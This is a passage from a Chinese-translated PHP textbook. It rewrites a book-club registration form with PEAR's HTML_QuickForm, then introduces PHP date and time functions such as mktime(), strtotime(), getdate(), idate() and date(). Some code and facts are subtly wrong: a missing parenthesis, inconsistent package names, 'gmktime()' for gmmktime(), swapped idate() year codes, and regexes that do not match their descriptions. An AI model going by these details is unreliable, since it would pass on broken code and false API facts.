......done: 6,828 bytes
install ok: channel://pear.php.net/HTML_QuickForm_Renderer_Tablessless-0.6.1
$
```

现在您已准备好修改读书俱乐部应用程序代码。首先，将您在第 14 章中创建的 book_club 文件夹（及其文件）复制到文档根目录下的新文件夹 book_club_2 中。这样将保留您的原始应用程序文件。

接下来，打开 book_club_2 文件夹内的 common.inc.php 文件，修改文件顶部 displayPageHeader() 函数中的 CSS。这是必要的，以使 CSS 与 HTML_QuickForm 生成的标记兼容。用以下内容替换旧的 displayPageHeader() 函数：

```
function displayPageHeader( $pageTitle, $membersArea = false ) {
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title><?php echo $pageTitle?></title>
<link rel="stylesheet" type="text/css" href="<?php if ( $membersArea )
echo "../" ?>.common.css" />
<style type="text/css">
th { text-align: left; background-color: #bbb; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
.error { background: #d33; color: white; padding: 0.2em; margin: 0.2em 0 0.2em 0; font-size: 0.9em; }
fieldset { border: none; }
ol {list-style-type: none; }
input, select, textarea { float: none; margin: 1em 0 0 0; width: auto; }
div.element { float: right; width: 57%; }
div.element label { display: inline; float: none; }
</style>
</head>
<body>
<h1><?php echo $pageTitle?></h1>
<?php
}
```

现在，重写 book_club_2 文件夹中的 register.php 脚本以使用 HTML_QuickForm。用以下新代码替换脚本中的旧代码：

```
<?php
require_once( "common.inc.php" );
require_once( "HTML/QuickForm.php" );
require_once( "HTML_QuickForm_Renderer_Tableless.php" );
$form = new HTML_QuickForm( "", "post", "register.php", "",
array( "style" => "width: 30em;", true );
$form->removeAttribute( "name" );
addElements( $form );
addRules( $form );
$form->setRequiredNote( "" );
if ( $form->isSubmitted() && $form->validate() ) {
    $form->process( "processForm" );
    displayThanks();
} else {
    displayPageHeader( "Sign up for the book club!" );
?>
<p>Thanks for choosing to join our book club.</p>
<p>To register, please fill in your details below and click Send Details.</p>
<p>Fields marked with an asterisk (*) are required.</p>
<?php
    $renderer = new HTML_QuickForm_Renderer_Tableless();
    $form->accept( $renderer );
    echo $renderer->toHtml();
    displayPageFooter();
}

function addElements( $form ) {
    $form->addElement( "text", "username", "Choose a username" );
    $password1 = $form->addElement( "password", "password1", "Choose a password" );
    $password1->setValue( "" );
    $password2 = $form->addElement( "password", "password2", "Retype password" );
    $password2->setValue( "" );
    $form->addElement( "text", "emailAddress", "Email address" );
    $form->addElement( "text", "firstName", "First name" );
    $form->addElement( "text", "lastName", "Last name" );
    $genderOptions = array();
    $genderOptions[] = HTML_QuickForm::createElement( "radio", null, null, "Male", "m" );
    $genderOptions[] = HTML_QuickForm::createElement( "radio", null, null, "Female", "f" );
    $form->addGroup( $genderOptions, "gender", "Your gender", "" );
    $member = new Member( array() );
    $form->addElement( "select", "favoriteGenre", "What's your favorite genre?", $member->getGenres() );
    $form->addElement( "textarea", "otherInterests", "What are your other interests?", array( "rows" => 4, "cols" => 50 ) );
    $buttons = array();
    $buttons[] = HTML_QuickForm::createElement( "submit", "submitButton", "Send Details" );
    $buttons[] = HTML_QuickForm::createElement( "reset", "resetButton", "Reset Form" );
    $form->addGroup( $buttons, null, null, "&nbsp;" );
}

function addRules( $form ) {
    $form->addRule( "username", "Please enter a username", "required" );
    $form->addRule( "username", "The username can contain only letters and digits", "alphanumeric" );
    $form->addRule( "password1", "Please enter a password", "required" );
    $form->addRule( "password1", "The password can contain only letters and
```


```php
digits", "alphanumeric" );
$form->addRule( "password2", "Please retype your password", "required" );
$form->addRule( "password2", "The password can contain only letters and digits", "alphanumeric" );
$form->addRule( array( "password1", "password2" ), "Please make sure you enter your password correctly in both password fields.", "compare" );
$form->addRule( "emailAddress", "Please enter an email address", "required" );
$form->addRule( "emailAddress", "Please enter a valid email address", "email" );
$form->addRule( "firstName", "Please enter your first name", "required" );
$form->addRule( "firstName", "The First Name field can contain only letters, digits, spaces, apostrophes, and hyphens", "regex", "/^[ \\\\-a-zA-Z0-9]+$/" );
$form->addRule( "lastName", "Please enter your last name", "required" );
$form->addRule( "lastName", "The Last Name field can contain only letters, digits, spaces, apostrophes, and hyphens", "regex", "/^[ \\\\-a-zA-Z0-9]+$/" );
$form->addRule( "gender", "Please select your gender", "required" );
$form->addRule( "gender", "The Gender field can contain only 'm' or 'f'", "regex", "/^[mf]$/" );
$member = new Member( array() );
$form->addRule( "favoriteGenre", "The Favorite Genre field can contain only allowed genre values", "regex", "/^(". implode( "|", array_keys( $member->getGenres() ) ). ")$/i" );
$form->addRule( "otherInterests", "The Other Interests field can contain only letters, digits, spaces, apostrophes, commas, periods, and hyphens", "regex", "/^[ \\\\.\\-a-zA-Z0-9]+$/" );
$form->addRule( "username", "A member with that username already exists in the database. Please choose another username.", "callback", "checkDuplicateUsername" );
$form->addRule( "emailAddress", "A member with that email address already exists in the database. Please choose another email address, or contact the webmaster to retrieve your password.", "callback", "checkDuplicateEmailAddress" );
}

function checkDuplicateUsername( $value ) {
return !(boolean) Member::getByUsername( $value );
}

function checkDuplicateEmailAddress( $value ) {
return !(boolean) Member::getByEmailAddress( $value );
}

function processForm( $values ) {
$values["password"] = $values["password1"];
$values["joinDate"] = date( "Y-m-d" );
$member = new Member( $values );
$member->insert();
}
function displayThanks() {
    displayPageHeader( "Thanks for registering!" );
?>
<p>Thank you, you are now a registered member of the book club.</p>
<?php
    displayPageFooter();
}
?>
```

在 Web 浏览器中打开 register.php 脚本的 URL 进行测试。从图 15-3 可以看出，该表单的外观和行为与第 14 章中的表单非常相似。主要区别在于，验证错误直接显示在表单字段上方，而不是在表单顶部。


图 15-3

## 工作原理

你可以看出，这个 register.php 脚本的结构与第 14 章版本的结构有很大不同。首先，该脚本包含公共代码文件，以及两个 PEAR 包：HTML_QuickForm 和 HTML_QuickForm_Renderer_Tagless。

随后，它创建一个新的 HTML_QuickForm 对象，设置空的 name 属性、method="post" 属性、指向脚本（register.php）的 action 属性、空的 target 属性、无其他附加属性，并将 $trackSubmit 属性设置为 true，以便脚本知道表单数据何时已提交。创建 HTML_QuickForm 对象后，其空的 name 属性会被完全从表单元素中移除（这是为了确保页面完全符合 XHTML 1.0 标准）。

```php
$form = new HTML_QuickForm( "", "post", "register.php", "", array( "style" => "width: 30em;" ), true );
$form->removeAttribute( "name" );
```

现在脚本调用两个函数 addElements() 和 addRules()，它们向 $form 对象添加多个元素和验证规则（稍后你将看到它们的工作原理）。它还调用对象的 setRequiredNote() 方法来删除默认的“** 表示必填字段”消息；这是因为脚本在网页中已经显示了自己类似的消息：

```php
addElements( $form );
addRules( $form );
$form->setRequiredNote( "" );
```

脚本的主要决策逻辑如下。如果表单已提交并通过验证，则通过调用 $form 对象的 process() 方法来处理它，传入处理表单数据的函数名称（processForm()）。然后显示一条感谢消息：

```php
if ( $form->isSubmitted() && $form->validate() ) {
$form->process( "processForm" );
displayThanks();
}
```

如果表单未提交，或提交了但未通过验证，则显示表单。为此，脚本首先通过调用 common.inc.php 文件中的 displayPageHeader() 函数显示页面页眉。接着，它创建一个新的 HTML_QuickForm_Renderer_Tabless 渲染器对象，通过调用 $form 对象的 accept() 方法将 $form 对象的渲染器设置为该对象，并通过调用渲染器对象的 toHtml() 方法输出表单，将返回的标记发送到浏览器。最后，通过调用 displayPageFooter() 输出页面页脚：

```php
} else {
displayPageHeader( "Sign up for the book club!" );
?>
<p>Thanks for choosing to join our book club.</p>
<p>To register, please fill in your details below and click Send Details.</p>
<p>Fields marked with an asterisk (*) are required.</p>
<?php
$renderer = new HTML_QuickForm_Renderer_Tabless();
$form->accept( $renderer );
echo $renderer->toHtml();
displayPageFooter();
}
```

接下来是 addElements() 函数，用于向 $form 对象添加各种表单字段和控件。如果你阅读了前面几个章节，这段代码大部分应该不言自明。不过，有几个控件需要特别注意。两个性别单选按钮是使用空的字段名和标签创建的，脚本指定在每个按钮后显示文本（“男性”和“女性”），以及字段的值（“m”和“f”）。然后将这两个按钮添加到一个数组中：

```php
$genderOptions = array();
$genderOptions[] = HTML_QuickForm::createElement( "radio", null, null, " Male", "m" );
$genderOptions[] = HTML_QuickForm::createElement( "radio", null, null, " Female", "f" );
```

然后使用这个按钮数组创建一个名为 "gender"、标签为 "Your gender" 的元素组。HTML_QuickForm 随后将每个单选按钮的字段名设置为组名 "gender"：

```php
$form->addGroup( $genderOptions, "gender", "Your gender", " " );
```

为创建 favoriteGenre 选择字段，脚本调用 Member::getGenres() 方法获取要传递给 addElement() 的关联数组（包含类型名称和值）。脚本需要创建一个临时 $member 对象来调用 Member::getGenres()，因为 getGenres() 不是静态方法：

```php
$member = new Member( array() );
$form->addElement( "select", "favoriteGenre", "What's your favorite genre?", $member->getGenres() );
```

addRules() 函数使用 $form 对象的 addRule() 方法向表单中的大多数字段添加验证规则。所有必填字段都会按照 required 规则进行检查，alphanumeric 规则用于用户名和两个密码字段，以确保它们仅包含字母和/或数字。此外，compare 规则用于检查两个密码字段是否包含相同的值：

```php
$form->addRule( array( "password1", "password2" ), "Please make sure you enter your password correctly in both password fields.", "compare" );
```

当然，emailAddress 字段使用 email 规则进行检查。其余字段（firstName、lastName、gender、favoriteGenre 和 otherInterests）则使用 regex 规则针对各种正则表达式进行检查。

值得关注的是 favoriteGenre 字段的代码。它创建一个临时 $member 对象并调用其 getGenres() 方法以获取允许的类型关联数组。然后，它使用 PHP 的 array_keys() 函数（该函数返回包含给定数组中所有键的索引数组）提取类型值，并使用 implode() 函数将得到的数组转换为由 | 分隔的可选值字符串，以便插入到正则表达式中：

```php
$member = new Member( array() );
$form->addRule( "favoriteGenre", "The Favorite Genre field can contain only allowed genre values", "regex", "/^(". implode( "|", array_keys( $member->getGenres() ) ). ")$/" );
```


## 第 15 章：利用 PEAR 让工作更轻松

implode() 在第 6 章中已有解释，关于正则表达式及其替代方案的更多内容可参见第 18 章。

还需要注意回调规则类型的两种用法。username 字段通过调用 checkDuplicateUsername() 函数进行验证（你稍后就会看到）；如果所选用户名是唯一的，该函数返回 true，如果用户名已存在于数据库中，则返回 false。emailAddress 字段的检查方式类似，使用 checkDuplicateEmailAddress() 回调函数：

```
$form->addRule( "username", "A member with that username already exists in the database. Please choose another username.", "callback",
"checkDuplicateUsername" );
$form->addRule( "emailAddress", "A member with that email address already exists in the database. Please choose another email address, or contact the webmaster to retrieve your password.", "callback",
"checkDuplicateEmailAddress" );
```

接下来是刚才描述的两个回调函数。checkDuplicateUsername() 期望传入要检查的用户名。它调用 Member::getByUsername() 尝试检索同名的现有成员。返回值被强制转换为布尔值：如果返回 Member 对象，则强制转换为 true，否则结果为 false。然后使用 !（非）运算符对该值取反，以获得函数返回的正确值：

```
return ! (boolean) Member::getByUsername( $value );
```

checkDuplicateEmailAddress() 的工作方式大致相同，调用 Member::getByEmailAddress() 查找具有相同电子邮件地址的现有成员：

```
return ! (boolean) Member::getByEmailAddress( $value );
```

processForm() 函数比第 14 章中的对应函数简单得多，因为检索和验证提交的表单数据的所有繁重工作已由 HTML_QuickForm 完成。该函数只需获取一个提交的表单字段值关联数组（由 HTML_QuickForm 对象传递给它），添加一个值为 password1 字段的新密码字段，并根据当前日期创建 joinDate 字段。然后将此完整的字段数组传递给 Member 构造函数以创建 Member 对象，再通过调用其 insert() 方法将其添加到数据库中：

```
function processForm( $values ) {
$values[ "password" ] = $values[ "password1" ];
$values[ "joinDate" ] = date( "Y-m-d" );
$member = new Member( $values );
$member->insert();
}
```

得益于使用 HTML_QuickForm 完成大量繁重工作（显示表单、收集和验证提交的数据、报告错误），这个重写的 register.php 脚本优雅且易于阅读。而且，它只有 96 行代码，而原脚本有 127 行。这就是可复用代码的力量！

### 总结

在本章中，你探索了 PEAR，即 PHP 扩展和应用程序库：一个庞大的免费可复用代码集合，你可以将其纳入自己的 PHP 项目中。通过使用 PEAR 包，你的 Web 应用程序构建在预先编写、经同行评审、经过充分测试的代码基础之上，这能节省大量编码和查错时间。

在学习本章过程中，你：

- 研究了 PEAR 包管理器
- 学习了如何安装和删除 PEAR 包，以及如何处理依赖项
- 编写了一个脚本，使用 PEAR Net_UserAgent_Detect 包检测访问者的浏览器和操作系统
- 使用 HTML_Table 包生成斐波那契数字表
- 学习了如何使用强大的 HTML_QuickForm 包生成、处理和验证 Web 表单
- 重写了前一章的注册脚本以使用 HTML_QuickForm，从而得到一个更清晰、更简短且更易于维护的脚本

本章让你领略了 PEAR 的强大与实用。尝试完成以下练习，以便习惯于编写基于 PEAR 的应用程序，别忘了访问 http://pear.php.net/packages.php 的包仓库获取其他想法。你可以在附录 A 中找到这些练习的解答。

在下一章中，你将探索从 PHP 脚本处理外部世界的方式，包括与 Web 服务器通信、发送电子邮件以及处理日期和时间。

### 练习

1. 下载并安装 Numbers_Roman PEAR 包，并使用它编写一个脚本，将 1 到 100 的整数显示为罗马数字。
2. 使用 Numbers_Roman 和 HTML_QuickForm 编写一个罗马数字与阿拉伯数字转换器。用户可以以罗马数字或阿拉伯数字格式输入数字，然后单击“转换”按钮。随后脚本将以替代格式显示该数字。

## PHP 与外部世界

你在这本书中使用过的大多数 PHP 应用程序与外部世界的交互都很有限。通常，Web 浏览器请求一个 URL，运行一个 PHP 脚本，脚本将一些 HTML 标记返回给浏览器。

然而，PHP 所能做的远不止处理浏览器请求和返回 HTML。通过使用各种内置 PHP 函数和变量，PHP 脚本可以了解其运行环境的大量信息，处理不同类型的内容，并与 Web 浏览器以外的实体通信。

在本章中，你将了解 PHP 脚本与外部世界交互的一些常见方式：

- **日期和时间处理：** 许多 PHP 脚本需要处理当前日期和时间，以及操作生日和注册日期等日期。由于日期和时间比较难以处理，PHP 提供了许多日期和时间函数来帮助你

- **使用 HTTP 标头：** PHP 允许你直接访问和操作 HTTP 标头。这样，你的脚本可以从浏览器获取更多信息，还可以执行其他功能，例如 URL 重定向和向浏览器发送非 HTML 内容

- **读取服务器信息：** 通过使用 `$_SERVER` 超全局数组，你的应用程序可以提取关于 Web 服务器和当前运行脚本的各种有用信息

- **发送电子邮件：** PHP 包含内置 `mail()` 函数，让你可以在 PHP 应用程序中撰写和发送电子邮件

学完本章后，你将能够为 PHP 应用程序添加更多有用功能。

### 使用日期和时间

Web 应用程序经常需要处理日期和时间。例如，应用程序可能需要跟踪页面访问时间、处理从 Web 表单输入的日期（如出生日期），或者将 MySQL 数据库返回的日期字段以人性化的方式格式化，以便在 Web 页中显示。

尽管日期和时间乍看之下似乎是处理起来相当简单的概念，但实际上，它们对计算机来说可能相当棘手。闰年、时区以及一个月天数不固定等问题，在存储、检索、比较、添加和减去日期时都可能引发各种问题。

为此，PHP 提供了一些日期和时间相关函数，让你的工作更轻松。

### 了解时间戳

大多数计算机将日期和时间存储为 UNIX 时间戳，或简称时间戳。_时间戳_ 是一个整数，保存的是 1970 年 1 月 1 日午夜 UTC 与要存储的日期和时间（同样为 UTC）之间的秒数。例如，格林尼治标准时间（GMT）“2007 年 2 月 14 日 16:48:12”由 UNIX 时间戳 `1171471692` 表示，因为 2007 年 2 月 14 日 16:48:12 恰好是在 1970 年 1 月 1 日午夜之后的 1,171,471,692 秒。

> UTC 代表协调世界时。在大多数情况下，你可以将其视为格林尼治标准时间（GMT）的等效值。

你可能在想，为什么计算机要以如此奇怪的格式存储日期和时间。事实上，时间戳是表示日期和时间的一种非常有用的方式。首先，因为时间戳只是一个整数，计算机很容易存储它。其次，当日期和时间只是整数时，很容易进行操作。例如，要给时间戳添加一天，只需将一天的秒数（即 86,400 秒）加到该值上即可。不管该时间戳表示的是月末或年末的日期，你都可以通过向时间戳值添加 86,400 秒来添加一天。

绝大多数 PHP 日期和时间函数都使用时间戳——即使不是显式使用，内部肯定也会用到。

### 获取当前日期和时间

计算机（包括 Web 服务器以及你自己的 PC）使用内置时钟记录当前日期和时间。你可以使用 PHP `time()` 函数访问该时钟的值，该函数仅将当前日期和时间作为时间戳返回：

```php
echo time(); // Displays e.g. "1229509316"
```

虽然 `time()` 本身用处不大，但你可以将其与其他 PHP 函数结合使用，来显示当前时间并将日期和时间与当前日期和时间进行比较，等等。


如果在使用 PHP 的任何日期相关函数时，收到一条错误消息，告知你不能依赖系统的时区设置，你需要配置 PHP 的时区。有关说明，请参见第 2 章中的“设置你的时区”部分。

## 创建你自己的时间戳

虽然 time() 对于获取当前时间很有用，但你通常希望处理其他日期和时间。你可以使用各种 PHP 函数来创建用于存储日期和时间的时间戳。你最可能经常使用的三个函数是 mktime()、gmktime() 和 strtotime()。

## 从日期和时间值创建时间戳

mktime() 函数基于最多六个时间/日期参数返回一个时间戳，具体如下：

- 小时（0–23）
- 分钟（0–59）
- 秒（0–59）
- 月（1–12）
- 月份中的天数（1–31）
- 年份（1901–2038）

例如，以下代码显示对应于 1972 年 1 月 6 日下午 2:32:12 的时间戳：

```
echo mktime( 14, 32, 12, 1, 6, 1972 );
```

你可以随意省略任意多个参数，系统将使用对应当前时间的值代替。例如，如果当前日期是 2008 年 12 月 22 日，以下代码将显示表示 2008 年 12 月 22 日上午 10 点的时间戳：

```
echo mktime( 10, 0, 0 );
```

> 如果你省略所有参数，mktime() 将返回当前日期和时间，就像 time() 一样。

顺便说一句，你可以传入超出允许范围的参数，mktime() 会相应地调整这些值。因此，传入月份为 3、日期为 32 会导致 mktime() 返回一个表示 4 月 1 日的时间戳。

## 从 GMT 日期和时间值创建时间戳

mktime() 假设你传入的参数位于你计算机的时区——它会将提供的时间转换为 UTC，以便将其作为时间戳返回。但是，有时能够存储已经处于 GMT 时区的日期和时间非常有用。例如，许多 HTTP 头和其他 TCP/IP 协议使用始终处于 GMT 的日期和时间。

要从 GMT 日期和时间创建时间戳，请使用 gmktime()。它的工作方式与 mktime() 完全相同，区别在于它期望其参数处于 GMT。例如，假设运行 PHP 脚本的计算机位于印第安纳波利斯时区（比 GMT 慢 5 小时），并且正在运行以下代码：

```
$localTime = mktime( 14, 32, 12, 1, 6, 1972 );
$gmTime = gmktime( 14, 32, 12, 1, 6, 1972 );
```

这段代码运行后，$localTime 保存的是表示 1972 年 1 月 6 日下午 7:32:12 GMT/UTC 的时间戳（即印第安纳波利斯时间当天下午 2:32）。与此同时，$gmTime 保存的是下午 2:32:12 GMT/UTC 的时间戳；换句话说，没有进行时区转换。

mktime() 和其他日期相关函数使用 php.ini 文件中 date.timezone 指令设置的时区（有关详细信息，请参见第 2 章）。但是，如果需要，你可以使用 date_default_timezone_set() 函数更改 PHP 脚本使用的时区。有关此函数的更多详细信息，请参见 PHP 手册 http://www.php.net/date_default_timezone_set。

## 从日期和时间字符串创建时间戳

如果你已经拥有要存储的日期和时间的各个数值，mktime() 非常出色。但是，你的 PHP 脚本通常会以字符串形式接收日期或时间。例如，如果你的脚本处理电子邮件，它可能需要处理消息日期，这些日期通常采用以下格式表示：

```
Date: Mon, 22 Dec 2008 02:30:17 +0000
```

Web 服务器日志倾向于使用以下格式：

```
15/Dec/2008:20:33:30 +1100
```

或者，你的脚本可能会收到类似以下的用户输入日期：

```
15th September 2006 3:12pm
```

虽然你可以使用 PHP 强大的字符串操作函数（请参见第 5 章）和正则表达式（请参见第 18 章）将此类字符串拆分为组成部分以供 mktime() 使用，但 PHP 提供了一个名为 strtotime() 的有用函数来为你完成艰苦的工作。strtotime() 期望一个表示日期的字符串，并尝试将该字符串转换为时间戳：

```
$timestamp = strtotime( "15th September 2006 3:12pm" );
```

你可以传入几乎任何你喜欢的人类可读格式的日期和时间。以下是可以传递给 strtotime() 的一些有效日期/时间字符串示例：

| 日期/时间字符串 | 含义 |
|---|---|
| 6/18/99 3:12:28pm | 1999 年 6 月 18 日下午 3:12:28 |
| 15th Feb 04 9:30am | 2004 年 2 月 15 日上午 9:30 |
| February 15th 2004, 9:30am | 2004 年 2 月 15 日上午 9:30 |
| tomorrow 1:30pm | 当前日期之后的一天下午 1:30 |
| Today | 当前日期午夜 |
| Yesterday | 当前日期前一天午夜 |
| last Thursday | 当前日期之前的星期四午夜 |
| +2 days | 后天当前时间 |
| -1 year | 一年前当前时间 |
| +3 weeks 4 days 2 hours | 从现在起 3 周 4 天 2 小时 |
| 3 days | 当前日期当前时间之后 3 天 |
| 4 days ago | 当前日期当前时间之前 4 天 |
| 3 hours 15 minutes | 当前时间加 3 小时 15 分钟 |

与 mktime() 类似，strtotime() 默认假设你传递的字符串表示计算机时区中的日期和时间，并相应地转换为 UTC。但是，你可以通过在字符串末尾添加加号或减号及随后的四位数字来指定不同时区的时间，该数字为相对于 UTC 的偏移量。前两位数字表示偏移量的小时部分，后两位数字表示分钟部分。例如：

```
$t = strtotime( "February 15th 2004, 9:30am +0000" ); // GMT
$t = strtotime( "February 15th 2004, 9:30am +0100" ); // 1 hour ahead of GMT
$t = strtotime( "February 15th 2004, 9:30am -0500" ); // Indianapolis time
$t = strtotime( "February 15th 2004, 9:30am +1000" ); // Sydney time (not DST)
$t = strtotime( "February 15th 2004, 9:30am +1100" ); // Sydney time (with DST)
```

strtotime() 基于当前日期计算相对日期（例如“tomorrow 1:30pm”）。如果你想基于不同的日期计算相对日期，请以时间戳格式将该日期作为第二个参数传递给 strtotime()：

```
$localTime = strtotime( "tomorrow 1:30pm", 0 ); // January 2nd 1970, 1:30:00 pm
```

## 从时间戳提取日期和时间值

现在你知道如何从时间/日期值和字符串创建时间戳了。你也可以进行反向操作，将时间戳转换为其对应的日期和时间组件。

getdate() 接受一个时间戳，并返回一个与所提供时间戳对应的日期/时间值的关联数组。该数组包含以下键：

| 数组键 | 说明 | 可能的值 |
|---|---|---|
| seconds | 秒组件 | 0 到 59 |
| minutes | 分钟组件 | 0 到 59 |
| hours | 小时组件，24 小时制 | 0 到 23 |
| mday | 月份中的天数 | 1 到 31 |
| wday | 一周中的天数（数字） | 0（星期日）到 6（星期六） |
| mon | 月份组件（数字） | 1 到 12 |
| year | 年份组件（四位数字） | 通常为 1970 到 2038 |
| yday | 一年中的天数 | 0 到 365 |
| weekday | 一周中的天数（字符串） | 星期日 到 星期六 |
| month | 月份组件（字符串） | 一月 到 十二月 |
| 0（零） | 时间戳 | 通常为 –2147483648 到 2147483647 |

你也可以不带时间戳调用 getdate() 以返回当前日期和时间的组件。

以下是 getdate() 的几个示例：

```
// Displays "John Lennon was born on 9 October, 1940"
$johnLennonsBirthday = strtotime( "October 9, 1940" );
$d = getdate( $johnLennonsBirthday );
echo "John Lennon was born on " . $d["mday"] . " " . $d["month"] . ", " .
    $d["year"] . "<br />";

// Displays e.g. "17:31"
$t = getDate();
echo "The current time is " . $t["hours"] . ":" . $t["minutes"] . "<br />";
```

如果你只想从时间戳中提取单个日期或时间组件，可以使用 idate()。该函数接受两个参数：一个格式字符串和一个可选的时间戳。（如果你省略时间戳，则使用当前日期和时间。）单字符格式字符串决定要返回的组件以及返回的格式，如下所示：


| Format String | Description |
|---|---|
| B | Swatch Internet Time — 一个不受时区限制、以十进制计量的时间。详情请参阅 http://en.wikipedia.org/wiki/Swatch_Internet_Time |
| d | 一个月中的日期 |
| h | 小时（12小时制） |
| H | 小时（24小时制） |
| i | 分钟 |
| I | 如果当前处于日光节约时间（DST），则为 1，否则为 0 |
| L | 如果该日期在闰年，则为 1，否则为 0 |
| M | 月份编号（1–12） |
| s | 秒 |
| t | 该月的天数（28、29、30 或 31） |
| U | 时间戳 |
| w | 一周中的一天，以数字表示（0 代表星期日） |
| W | 一年中的周数（从 1 开始计算） |
| Y | 两位数字表示的年份 |
| y | 四位数字表示的年份 |
| z | 一年中的天数（0 代表 1 月 1 日） |
| Z | 计算机时区相对于 UTC 的偏移量（以秒为单位） |

正如你所见，你可以使用 idate() 从日期中检索各种有用信息。示例如下：

```php
$d = strtotime( "February 18, 2000 7:49am" );

// Displays "The year 2000 is a leap year."
echo "The year " . idate( "Y", $d );
echo " is " . ( idate( "L", $d ) ? "" : "not" ) . " a leap year.<br />";

// Displays "The month in question has 29 days."
echo " The month in question has " . idate( "t", $d ) . " days.<br />";
```

## 格式化日期字符串

虽然计算机倾向于使用时间戳，但在许多情况下，你需要将时间戳转换为日期的字符串表示形式。常见场景包括在网页上显示日期，或者将日期传递给期望接收指定格式日期字符串的其他应用程序。

PHP 的 `date()` 函数可让你将时间戳转换为日期字符串。它的工作方式与 `idate()` 类似，即向其传递一个格式字符串和要使用的时间戳（省略时间戳即可转换当前日期和时间）。主要区别在于，格式字符串可以包含多个字符，从而让你生成一个包含所需任意多个日期和时间组件的日期字符串。你还可以使用在 `idate()` 中不可用的其他格式字符。

以下是 `date()` 的格式字符串中允许的日期相关格式字符列表：

| Character | Description |
|---|---|
| j | 一个月中的日期，不带前导零 |
| d | 一个月中的两位数字日期，如有需要带前导零 |
| D | 一周中的星期，以三个字母的字符串表示（例如“Mon”） |
| l (lowercase 'L') | 一周中的星期，以完整单词表示（例如“Monday”） |
| w | 一周中的星期，以数字表示（0=星期日，6=星期六） |
| N | 一周中的星期，以 ISO-8601 数字表示（1=星期一，7=星期日） |
| S | 追加到一个月中的日期后的英文序数词后缀（“st”、“nd”、“rd”或“th”）。通常与 `j` 格式字符一起使用 |
| z | 一年中的天数（0 代表 1 月 1 日） |
| W | 一年中的两位数字 ISO-8601 周数，如有需要带前导零。周从星期一开始。第一周为第 01 周 |
| M | 月份，以三个字母的字符串表示（例如“Jan”） |
| F | 月份，以完整单词表示（例如“January”） |
| n | 月份，以数字表示（1–12） |
| m | 月份，以两位数字表示，如有需要带前导零（01–12） |
| t | 该月的天数（28、29、30 或 31） |
| y | 两位数字表示的年份 |
| Y | 四位数字表示的年份 |
| o (lowercase "o") | ISO-8601 年份编号。通常与 Y 相同；但是，如果 ISO-8601 周数属于上一年或下一年，则使用该年份。例如，2000 年 1 月 1 日的 ISO-8601 年份编号是 1999 |
| L | 如果该日期在闰年，则为 1，否则为 0 |

date() 还允许使用以下时间格式字符：

| Character | Description |
|---|---|
| g | 12小时制的小时，不带前导零（1–12） |
| h | 12小时制的小时，带前导零（01–12） |
| G | 24小时制的小时，不带前导零（0–23） |
| H | 24小时制的小时，带前导零（00–23） |
| i | 分钟，带前导零（00–59） |
| s | 秒，带前导零（00–59） |
| u | 微秒（由于在编写本文时，date() 只能接受整数时间戳，因此始终为零） |
| B | Swatch Internet Time — 一个不受时区限制、以十进制计量的时间。详情请参阅 http://en.wikipedia.org/wiki/Swatch_Internet_Time |
| a | 根据小时的值显示 “am” 或 “pm” |
| A | 根据小时的值显示 “AM” 或 “PM” |
| e | 当前设置的时区的完整时区标识符（例如“UTC”或“America/Indiana/Indianapolis”） |
| T | 当前设置的时区的时区缩写（例如“UTC”或“EST”）。最好避免使用缩写，因为全球许多不同的时区经常使用相同的缩写 |
| O (capital "O") | 相对于 GMT 的时区偏移量，格式为 hhmm。例如，“America/Indiana/Indianapolis” 时区比 GMT 慢 5 小时，因此其偏移量为 -0500 |
| P | 与 O 相同，但在小时和分钟之间加冒号（例如 -05:00） |
| Z | 相对于 GMT 的时区偏移量，以秒为单位。例如，“America/Indiana/Indianapolis” 时区的秒偏移量为 –18000，因为 –5 小时 x 60 分钟 x 60 秒 = –18,000 秒 |
| I (capital "I") | 如果当前设置的时区处于日光节约时间，则为 1；否则为 0 |

请注意，时区格式字符处理的是脚本的时区，因为时间戳始终是 UTC。通常脚本的时区由 php.ini 文件中的 date.timezone 指令设置，但如有需要，你可以使用 PHP 的 date_default_timezone_set() 函数在脚本中更改时区。

除了刚才提到的单独的日期和时间格式字符之外，date() 还提供三个额外的格式字符，可一次性返回日期和时间：

| Character | Description |
|---|---|
| c | 以 ISO 8601 日期表示的日期和时间。例如，2006-03-28T19:42:00+11:00 表示 2006 年 3 月 28 日傍晚 7:42，所处时区比 GMT 超前 11 小时 |
| r | 以 RFC 2822 日期表示的日期和时间。例如，Tue, 28 Mar 2006 19:42:00 +1100 表示 2006 年 3 月 28 日傍晚 7:42，所处时区比 GMT 超前 11 小时。RFC 2822 日期通常用于 Web 和电子邮件等 Internet 协议 |
| U | 传递给 date() 的时间戳，或如果未传递时间戳，则表示当前时间的时间戳 |

例如，你可以像这样以美观易读的方式格式化日期和时间：

```php
$d = strtotime( "March 28, 2006 9:42am" );

// Displays "The 28th of March, 2006, at 9:42 AM"
echo date( "\\T\\h\\e jS \\o\\f M\\a\\r\\c\\h, Y, \\a\\\\t g:i A", $d );
```

请注意，格式字符串中的非格式字符需要用反斜杠转义，某些特殊字符（例如 \f 表示换页符，\t 表示制表符）需要额外的反斜杠来转义它们。

date() 会将提供给服务器的 UTC 时间戳转换为服务器的时区。如果你希望保持日期为 UTC，请改用 gmdate()：

```php
// Set the current time zone to 5 hours behind GMT
date_default_timezone_set( "America/Indiana/Indianapolis" );

// Set $d to the timestamp representing March 28, 2006 2:42 PM UTC
$d = strtotime( "March 28, 2006 9:42am" );

// Displays "March 28, 2006 9:42 AM"
echo date( "F j, Y g:i A", $d ) . "<br />";

// Displays "March 28, 2006 2:42 PM"
echo gmdate( "F j, Y g:i A", $d ) . "<br />";
```

## 检查日期值

通常脚本需要处理网站访问者输入的日期。例如，Web 表单可能包含三个下拉菜单，允许访问者输入出生日期的月份、日期和年份。但是，在这种情况下，访问者可以输入不存在的日期，例如 2009 年 2 月 31 日。显然，验证用户输入的日期字段以确保它们确实提供了合法日期是个好主意。

PHP 的 checkdate() 函数接受日期的月份数字（1–12）、日期数字（1–31）和年份部分，如果日期有效则返回 true，如果无效则返回 false：

```php
echo checkdate( 2, 31, 2009 ) . "<br />"; // Displays "" (false)
echo checkdate( 2, 28, 2009 ) . "<br />"; // Displays "1" (true)
```

在将任何用户输入的日期传递给（例如）mktime() 以转换为时间戳之前，最好先调用 checkdate()。

## 使用微秒

